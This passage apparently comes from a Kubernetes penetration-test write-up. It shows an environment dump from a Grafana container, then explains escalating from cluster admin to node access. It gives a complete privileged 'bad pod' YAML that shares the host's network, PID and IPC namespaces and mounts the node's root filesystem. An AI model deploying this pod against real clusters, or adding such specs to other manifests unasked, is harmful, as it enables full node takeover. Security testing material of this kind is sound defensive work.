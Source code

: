 ```console
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
GRAFANA_SERVICE_PORT=3000
SYRINGE_PORT_3000_TCP_ADDR=10.99.16.179
SYRINGE_SERVICE_PORT=3000
GF_PATHS_DATA=/var/lib/grafana
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
GF_PATHS_LOGS=/var/log/grafana
GRAFANA_PORT_3000_TCP_PROTO=tcp
PATH=/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GRAFANA_PORT_3000_TCP_ADDR=10.10.151.225
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

### Escalating to the node with bad pod

Having admin access to the cluster allows a user to create any resources at will. [This article](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation) explains how to get access to the kubernetes nodes by running a pod that mounts the node's file system.

A bad pod can be created based on the yaml file below. Do note that as the cluster might not have internet connectivity, you can set the variable `imagePullPolicy: IfNotPresent` to firstly pull the image from local cluster.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
